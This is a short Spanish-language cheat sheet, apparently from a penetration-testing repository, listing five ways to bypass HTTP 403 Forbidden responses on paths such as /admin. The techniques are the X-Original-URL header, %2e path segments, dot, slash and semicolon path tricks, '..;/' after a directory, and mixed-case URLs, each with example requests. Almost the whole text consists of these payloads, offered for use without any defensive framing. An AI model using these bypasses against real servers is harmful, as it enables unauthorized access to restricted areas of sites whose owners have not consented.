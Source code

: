 # Bypass 403 (Forbidden)

1 - Usando el header "X-Original-URL"

Respuesta del servidor

    GET /admin HTTP/1.1
    Host: host.com
    
Intenta este bypass

    GET /anything HTTP/1.1
    Host: host.com
    X-Original-URL: /admin
    
2 - Agregar %2e después de la primera barra inclinada
    
    http://host.com/admin => 403
    
Intenta este bypass    

    http://host.com/%2e/admin => 200
    
3 - Intente agregar un punto (.), una barra inclinada (/) y un punto y coma (;) en la URL

    http://host.com/admin => 403
    
Intenta este bypass

    http://host.com/secret/. => 200
    http://host.com//secret// => 200
    http://host.com/./secret/.. => 200
    http://host.com/;/secret => 200
    http://host.com/.;/secret => 200
    http://host.com//;//secret => 200
        
4 - Agregue "..;/" después del nombre del directorio 

    http://host.com/admin
    
Intenta este bypass

    http://host.com/admin..;/
    
5 - Intenta poner en mayúsculas la ruta en la url

    http://host.com/admin
    
Intenta este bypass

    http://host.com/aDmIN
